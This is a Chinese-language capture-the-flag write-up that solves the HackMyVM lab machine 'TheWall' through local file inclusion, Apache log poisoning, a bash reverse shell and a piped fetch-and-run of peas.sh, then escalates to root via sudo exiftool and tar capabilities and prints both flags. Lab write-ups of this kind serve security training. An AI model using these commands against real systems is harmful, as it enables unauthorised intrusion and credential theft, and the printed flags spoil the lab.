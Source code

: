 # TheWall

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=TheWall

[video](https://www.bilibili.com/video/BV1qXKLe5Eu1/?vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.38

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 首页没什么信息，gobuster 后出现大量 403，可能存在 WAF，必须降低请求速率，防止出现 403，先用一个小字典进行扫描，有点慢需要等待：

```
gobuster dir -t 10 -k -w ~/tools/dict/fileName5000.txt -u http://192.168.5.38/ -e -x php --delay 3000ms
```

扫描出一个空白 php 文件：http://192.168.5.38/includes.php 看文件名像是有文件包含，需要爆破一下可能存在的参数，也是很慢：

```
ffuf -t 2 -ac -c -rate 10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.5.38/includes.php?FUZZ=/etc/passwd
```

找到隐藏参数为 display_page:

```
curl http://192.168.5.38/includes.php?display_page=/etc/passwd
```

可以读取到 /etc/passwd 文件，在探测一下看看能读取到哪些系统文件：

```
ffuf -t 2 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.38/includes.php?display_page=FUZZ -fs 0
```

最终发现可以读取到 apache 的日志文件，这时可以实现注入 php 代码，然后获得反弹的 shell:

```
curl 'http://192.168.5.38/includes.php?display_page=/var/log/apache2/access.log'
```

kali 上监听 8888 端口，然后注入 php 代码：

```
curl -A '<?php echo 456; system($_GET[1]);?>' http://192.168.5.38/index.php
curl -G --data-urlencode 'display_page=/var/log/apache2/access.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.38/includes.php
```

这时得到了反弹的链接，直接得到了 user flag:

```
www-data@TheWall:/home/john$ cat user.txt
cc5db5e7b0a26e807765f47a006f6221
```

sudo -l 发现 (john : john) NOPASSWD: /usr/bin/exiftool 可以使用这个 exiftoo 将私钥信息植入到 home/john/.ssh 中:

```
cd /tmp
ssh-keygen -t rsa -f ./id_rsa
sudo -u john exiftool -filename=/home/john/.ssh/authorized_keys ./id_rsa.pub
ssh -i id_rsa john@127.0.0.1
```

由于目标上没有 curl、wget、nc 等，使用下面的方法执行 peas：

```
kali上执行：
nc -q 3 -lvnp 8888 < ~/tools/scripts/lin/enum/peas.sh

目标机器上执行：
bash -c 'cat < /dev/tcp/192.168.5.3/8888 | sh'
```

发现 capabilities: /usr/sbin/tar cap_dac_read_search=ep 可以读取敏感文件，发现 / 中有 id_rsa 可能是 root 用户的，尝试读取：

```
/usr/sbin/tar -vcf /tmp/rsa.tar /id_rsa
cd /tmp
tar -xvf rsa.tar
ssh -i id_rsa root@127.0.0.1
```

登陆成功，得到了 root flag：

```
root@TheWall:~# cat r0Ot.txT
4be82a3be9aed6eea5d0cce68e17662e
```

